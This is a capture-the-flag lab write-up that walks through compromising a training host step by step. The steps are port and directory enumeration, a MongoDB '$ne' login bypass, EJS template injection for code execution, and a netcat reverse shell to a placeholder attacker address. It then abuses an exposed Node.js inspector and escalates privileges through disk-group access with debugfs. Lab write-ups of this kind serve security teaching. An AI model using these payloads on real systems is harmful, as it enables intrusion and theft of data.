# Day 7 — Do Not Disturb

## Summary

Sign's on the door. Room's active. You have access you were never given, and so does he.

## Objective

The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.

## Tools / Techniques / Threat Vectors

- Nmap (service/version enumeration)
- Gobuster (directory brute-forcing)
- Wappalyzer (technology fingerprinting)
- Burp Suite (request interception/modification)
- NoSQL Injection (MongoDB operator injection — `$ne`)
- Server-Side Template Injection (SSTI — EJS)
- Reverse shell + shell stabilization (Python PTY)
- Node.js Inspector Protocol abuse (`--inspect`, `node inspect`, REPL RCE)
- Raw disk access privilege escalation (`debugfs`)

---

## Steps Taken

### 1. Port Scanning / Directory Enumeration

Ran an Nmap service/version scan against the target to identify open ports and running services.

``` text
nmap -sV -sC -p22,80 <target>
```

Results showed:

- **22/tcp** — OpenSSH 9.6p1 (Ubuntu)
- **80/tcp** — Node.js (Express middleware), page titled "Byte Lotus — Poolside"


Ran Gobuster against port 80 to enumerate hidden directories/routes.

``` text
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt
```

Found `/logout` and `/staff` (the latter returning `403 Forbidden`, indicating an auth-gated page).



---

### 3. Source Inspection & Technology Fingerprinting

Reviewed the page source for hints and used the Wappalyzer browser extension to confirm the underlying tech stack (Node.js / Express).



---

Found the actual login form was served at `/` but posted to `/login`, with fields `username` and `password`.



---

### 4. Injection Testing — SQLi → NoSQLi

Initially tested for classic SQL injection with no success. Pivoted to **NoSQL injection**, suspecting a MongoDB backend given the Node/Express stack.




Used Burp Suite's proxy to intercept the login request, changed the `Content-Type` header to `application/json`, and replaced the body with a MongoDB operator-based payload:

```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

**Before modification:**



**After modification (JSON payload injected):**



The `$ne` (not-equal) operator caused the backend query to match the first document in the collection, bypassing authentication entirely.

---

### 5. Confirming Authentication Bypass And Accessing Staff Page

The response returned a successful login with an assigned role and a valid session cookie.

```json
{"ok": true, "role": "staff"}
```



Using the session cookie, accessed `/staff`, revealing a "Cabana Desk" console that let staff submit a **guest confirmation message template**, explicitly noting it used **EJS** templating syntax (`<%= guest %>`).



---

### 6. Exploiting SSTI (EJS) for RCE

Since the template input was rendered server-side as raw EJS (not just a variable substitution), submitted a payload to achieve remote code execution:

```javascript
<%= global.process.mainModule.require('child_process').execSync('id').toString() %>
```

The output confirmed command execution as the `poolside` user.



---
Started a listener on the attacking machine and submitted a reverse shell payload through the same SSTI vector:

``` javascript
<%= global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f') %>
```

You can see the payload behind the transparent terminal in the web browser

``` bash
nc -lnvp <PORT>
```

Received a callback shell as `poolside`.



---

### 7. Shell Stabilization and User Flag

Upgraded the raw shell to a fully interactive TTY for usability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

You might think there's no **export TERM=xterm** but it's below on that screenshot where i did it



Enumerated the filesystem as `poolside` and located the user flag.



---

### 8. Discovering the Internal Pipeline Service

Continued enumeration and found an internal Node.js service (`processor.js`) under `/opt/pipelinesvc/telemetry`, running as a separate low-privileged user (`pipelinesvc`).



---
Identifying the Exposed Node Inspector. Checked running processes and found `processor.js` was launched with the Node.js debugger/inspector protocol exposed on localhost:

``` text
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

Connected to the exposed inspector using Node's built-in CLI debugger client directly from the `poolside` shell:

```bash
node inspect 127.0.0.1:9229
```

Entered the live REPL to evaluate JavaScript inside the running `pipelinesvc` process context:

```text
repl
process.mainModule.require('child_process').execSync('id').toString()
```



Spawned a reverse shell from within the REPL to obtain a stable interactive session as `pipelinesvc`.



---

### 9. Enumerating for Privilege Escalation

Checked the standard privesc vectors as `pipelinesvc`:

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

- `sudo -l` prompted for a password — no usable `NOPASSWD` rule, so sudo was a dead end without credentials.
- The SUID search did **not** return `debugfs` (confirmed separately with `ls -la $(which debugfs)`, which showed plain `-rwxr-xr-x`, no `s` bit). So `debugfs` is not exploitable as a SUID binary on this box.
With sudo and SUID ruled out, checked **group memberships** — an often-overlooked vector distinct from sudo/SUID:



```bash
id
groups
```

``` text
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
pipelinesvc disk
```

Output included membership in the **`disk`** group. This is a known "dangerous group" in Linux: members of `disk` get read/write access to raw block devices (`/dev/sd*`, `/dev/nvme*`), which sit *below* the filesystem's normal permission layer — meaning file-level permissions (like `/root` being `700`) don't apply when the device is read directly.

---

### 10. Exploiting Raw Disk Access with debugfs

Used `debugfs` directly against the raw block device (bypassing sudo and normal filesystem permission checks, since `debugfs` reads raw disk blocks rather than going through the kernel's VFS permission layer):

```bash
lsblk
ls -la /dev/nvme0n1p1
```



`lsblk` showed the root filesystem mounted from `nvme0n1p1`. `ls -la` on that device file confirmed group-level read/write access (`brw-rw---- 1 root disk ...`), matching the `disk` group membership found in step 9

### 11. Connecting the Access to a Tool — debugfs

With confirmed raw read access to the disk device, the next step was finding a tool that could leverage that access to read filesystem contents without going through normal file permissions. `debugfs` fits this exactly: it's an ext-family filesystem debugger that reads directly from a raw block device rather than through the kernel's VFS permission checks, and it ships by default on Debian/Ubuntu systems (`/usr/sbin/debugfs`), so no additional tooling was needed.

```bash
which debugfs
```

**Output:**

```text
  pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$ which debugfs
  /usr/sbin/debugfs
```

**The logical chain:**

``` text
id/groups → membership in `disk` group discovered
    → group grants raw read/write access to /dev/nvme0n1p1 (confirmed via ls -la)
    → debugfs can read filesystem structures directly from that raw device,
      bypassing normal file permission checks entirely
    → used as a normal user, no sudo or SUID required
```

---

### 12. Exploiting Raw Disk Access with debugfs

Ran `debugfs` directly against the raw block device:

```bash
debugfs /dev/nvme0n1
```

From the `debugfs:` prompt, navigated to `/root` and read the flag directly — something impossible through the normal filesystem, since `/root` is `700` and owned solely by root:

``` text
debugfs:  cd /root
debugfs:  ls
debugfs:  cat root.txt
```



---

## What I Learned

